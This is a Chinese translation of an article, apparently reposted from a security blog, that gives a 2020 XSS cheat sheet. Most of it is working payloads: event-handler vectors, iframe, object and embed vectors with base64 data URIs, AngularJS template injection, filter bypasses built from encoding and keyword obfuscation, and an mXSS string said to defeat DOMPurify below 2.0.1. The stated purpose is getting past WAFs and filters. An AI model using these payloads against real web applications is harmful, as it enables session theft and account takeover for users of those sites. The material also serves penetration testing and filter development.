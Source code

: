 

2020年仍然有效的一些XSS Payload

阅读量    766726 | 评论 1   稿费 50



发布时间：2020-02-18 17:00:08

译文声明

本文是翻译文章，文章原作者netsec，文章来源：netsec.expert

原文地址：https://netsec.expert/2020/02/01/xss-in-2020.html

---

译文仅供参考，具体内容表达以及含义原文为准

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/portswigger-labs/xss/images/5702106FCB1D44A3B286B088169FAE96bb46682022c1.png)

 

其实，现在网络上很多的XSS Cheat Sheet都已经过期了。很多的XSS Cheat Sheet都是直接从其他地方粘贴过来的，而且有的测试用例早在十年前就已经没用了，但是也没人去整理和清理。除此之外，在大多数情况下我们所遇到的情况都是这些XSS Cheat Sheet测试用例无法解决的，有可能是因为Waf，也有可能是因为XSS过滤器。当然了，如果只是一个简单的XSS漏洞，那你需要的仅仅只是一个有效的XSS攻击向量，而不是一堆“没用”的东西。

因此，在这篇文章中我想给大家提供一个“与众不同”的Cheat Sheet，在这份Cheat Sheet中我将给大家提供一份XSS技术和测试用例清单，并给出一些演示样例。希望在各位遇到难解决的WAF或XSS过滤器时，这份Cheat Sheet能够给大家提供一些帮助或灵感。虽然这份Cheat Sheet不能说100%完整，但是我相信这里提供的技术是2020年绝大部分研究人员仍在使用的技术。

 

标签-属性分隔符

有些过滤器会“天真地认为”只有某些特定字符可以分隔标签及其属性，下面给出的是在Firefox和Chrome中能够使用的有效分隔符的完整列表：

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/portswigger-labs/xss/images/3AC468AD2BEB420A90C2D60E16855BD7c8b3a305b9ce.png)

使用方式

一般来说，你的Payload构造如下：

<svg onload=alert(1)>

你可以尝试使用上述字符来替换‘svg’和‘onload’中间的空格，这样就可以保证HTML仍然有效并且Payload能够正确执行（DEMO：有效的HTML）：

<svg/onload=alert(1)><svg>

<svg
onload=alert(1)><svg> # newline char

<svg onload=alert(1)><svg> # tab char

<svg
onload=alert(1)><svg> # new page char (0xc)

 

基于JavaScript事件的XSS

标准HTML事件

点击事件：

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/portswigger-labs/xss/images/763F19228EBE4ADBB48717B390598DA0be6863a2ab2d.png)

使用样例：



<svg onload=alert()>

<body onpageshow=alert(1)>

<div style="width:1000px;height:1000px" onmouseover=alert()></div>

<marquee width=10 loop=2 behavior="alternate" onbounce=alert()> (firefox only)

<marquee onstart=alert(1)> (firefox only)

<marquee loop=1 width=0 onfinish=alert(1)> (firefox only)

<input autofocus="" onfocus=alert(1)></input>

<details open ontoggle="alert()"> (chrome & opera only)

HTML5事件

点击事件：

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/portswigger-labs/xss/images/BEE8EBB850DD41B7BBFF4EE1E2440D1A5017325a2ed1.png)

使用样例：

<video autoplay onloadstart="alert()" src=x></video>

<video autoplay controls onplay="alert()"><source src="http://mirrors.standaloneinstaller.com/video-sample/lion-sample.mp4"></video>

<video controls onloadeddata="alert()"><source src="http://mirrors.standaloneinstaller.com/video-sample/lion-sample.mp4"></video>

<video controls onloadedmetadata="alert()"><source src="http://mirrors.standaloneinstaller.com/video-sample/lion-sample.mp4"></video>

<video controls onloadstart="alert()"><source src="http://mirrors.standaloneinstaller.com/video-sample/lion-sample.mp4"></video>

<video controls onloadstart="alert()"><source src=x></video>

<video controls oncanplay="alert()"><source src="http://mirrors.standaloneinstaller.com/video-sample/lion-sample.mp4"></video>

<audio autoplay controls onplay="alert()"><source src="http://mirrors.standaloneinstaller.com/video-sample/lion-sample.mp4"></audio>

<audio autoplay controls onplaying="alert()"><source src="http://mirrors.standaloneinstaller.com/video-sample/lion-sample.mp4"></audio>

 

基于CSS的事件

不幸的是，基于CSS来实现XSS现在已经越来越难了，我尝试过的所有向量目前都只能在非常旧的浏览器上工作。因此，下面介绍的是基于CSS来触发XSS的情况。

下面的例子使用的是style标签来为动画的开始和结束设置关键帧：

<style>@keyframes x {}</style>

<p style="animation: x;" onanimationstart="alert()">XSS</p>

<p style="animation: x;" onanimationend="alert()">XSS</p>

 

古怪的XSS向量

下面给出的是一些比较“奇葩”的XSS测试向量，这些测试向量很少见：

<svg><animate onbegin=alert() attributeName=x></svg>

<object data="data:text/html,<script>alert(5)</script>">

<iframe srcdoc="<svg onload=alert(4);>">

<object data=javascript:alert(3)>

<iframe src=javascript:alert(2)>

<embed src=javascript:alert(1)>

<embed src="data:text/html;base64,PHNjcmlwdD5hbGVydCgiWFNTIik7PC9zY3JpcHQ+" type="image/svg+xml" AllowScriptAccess="always"></embed>

<embed src="data:image/svg+xml;base64,PHN2ZyB4bWxuczpzdmc9Imh0dH A6Ly93d3cudzMub3JnLzIwMDAvc3ZnIiB4bWxucz0iaHR0cDovL3d3dy53My5vcmcv MjAwMC9zdmciIHhtbG5zOnhsaW5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3hs aW5rIiB2ZXJzaW9uPSIxLjAiIHg9IjAiIHk9IjAiIHdpZHRoPSIxOTQiIGhlaWdodD0iMjAw IiBpZD0ieHNzIj48c2NyaXB0IHR5cGU9InRleHQvZWNtYXNjcmlwdCI+YWxlcnQoIlh TUyIpOzwvc2NyaXB0Pjwvc3ZnPg=="></embed>

XSS多覆盖样例

下面我给出了几份XSS的多段代码，因为有的时候我们只需要输入特定的字符，或者只需要一个基于DOM或基于非DOM的注入场景。

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/portswigger-labs/xss/images/7B15543B57CF43EABF3A71EA94CCDD8692acebe1f4f2.png)

 

框架

为了攻击JS框架，我们还需要对相关的模板语言进行研究和分析。

AngularJS

{{constructor.constructor('alert(1)')()}}

这个Payload适用于大多数场景。

Mavo

[self.alert(1)]

 

XSS过滤器绕过

圆括号过滤

利用HTML解析器和JS语句：

<svg onload=alert`1`></svg>
<svg onload=alert&lpar;1&rpar;></svg>
<svg onload=alert&#x28;1&#x29></svg>
<svg onload=alert&#40;1&#41></svg>

限制字符集

下面这三个站点可以将有效的JS代码转换为所谓的“乱码”来绕过绝大多数的过滤器：

1、JSFuck

2、JSFsck（不带圆括号的JSFuck）

3、jjencode

关键词过滤

避免使用的关键词：

(alert)(1)

(1,2,3,4,5,6,7,8,alert)(1)

a=alert,a(1)

[1].find(alert)

top["al”+”ert"](1)

top[/al/.source+/ert/.source](1)

alu0065rt(1)

top['al145rt'](1)

top['alx65rt'](1)

top[8680439..toString(30)](1) // Generated using parseInt("alert",30). Other bases also work

mXSS和DOM攻击

对于XSS过滤器来说，它们基本上不可能正确地预测浏览器如何跟HTML以及交互库进行数据处理的方式。因此，有的时候我们就可以将XSS Payload作为无效的HTML插入到目标页面中，然后浏览器将有可能把它作为有效Payload执行，这样就可以绕过过滤器了。

下面给出的是一个能够绕过最常见过滤器（DOMPurify <2.0.1）的mXSS Payload：

<svg></p><style><a id="</style><img src=1 onerror=alert(1)>">

<svg><p><style><a id="</style><img src=1 onerror=alert(1)>"></p></svg>

双重编码

有的时候，应用程序会在字符串再次解码之前，对其执行XSS过滤，这样就会给我们留下实现绕过的可乘之机。

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/portswigger-labs/xss/images/135EF9553425425D820FBFEE574D5244de01a2a7b889.png)

 

参考资料

1、https://www.vulnerability-lab.com/resources/documents/531.txt

2、https://portswigger.net/web-security/cross-site-scripting/cheat-sheet

3、https://portswigger.net/research/abusing-javascript-frameworks-to-bypass-xss-mitigations

4、https://cure53.de/fp170.pdf

5、https://www.youtube.com/watch?v=5W-zGBKvLxk

6、https://xss.pwnfunction.com/